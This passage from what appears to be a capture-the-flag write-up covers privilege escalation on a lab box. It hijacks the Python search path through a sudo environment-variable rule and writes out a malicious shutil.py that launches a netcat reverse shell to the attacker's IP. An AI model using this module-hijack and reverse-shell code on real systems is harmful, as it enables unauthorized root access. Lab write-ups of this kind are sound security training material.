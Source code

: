 {% include image.html image_alt="91c3c1ce.png" image_src="/c8399ad4-5424-4ab4-b255-085e004f3873/91c3c1ce.png" %}

## Privilege Escalation

During enumeration of `waldo`'s account, I notice that `waldo` is able to `sudo` the following.

{% include image.html image_alt="8275d38b.png" image_src="/c8399ad4-5424-4ab4-b255-085e004f3873/8275d38b.png" %}

That tells me that I can do something like this.

```
$ sudo ENV=some_value /opt/script/admin_tasks.sh
```

And that `ENV` will be taken into account when `admin_tasks.sh` is ran with `sudo`, i.e. as `root`. Notice that in `/opt/scripts` there's a Python script `backup.py`?

<div class="filename"><span>backup.py</span></div>

```python
from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

The `backup.py` script is further referenced in `admin_tasks.sh`.

{% include image.html image_alt="ddb46bf4.png" image_src="/c8399ad4-5424-4ab4-b255-085e004f3873/ddb46bf4.png" %}

So, if I hijack the Python search path for Python `shutil` module's `make_archive` function with something of my own, I can perform a privilege escalation! Here's my `shutil.py`.

```python
import os

def make_archive(a, b, c):
  os.system("/bin/nc 10.10.16.125 1234 -e /bin/bash")
```

Needless to say, I've set up a `netcat` listener on my attacking machine to catch the reverse shell.

{% include image.html image_alt="51ed87dd.png" image_src="/c8399ad4-5424-4ab4-b255-085e004f3873/51ed87dd.png" %}

Bombs away...

{% include image.html image_alt="53151f0f.png" image_src="/c8399ad4-5424-4ab4-b255-085e004f3873/53151f0f.png" %}
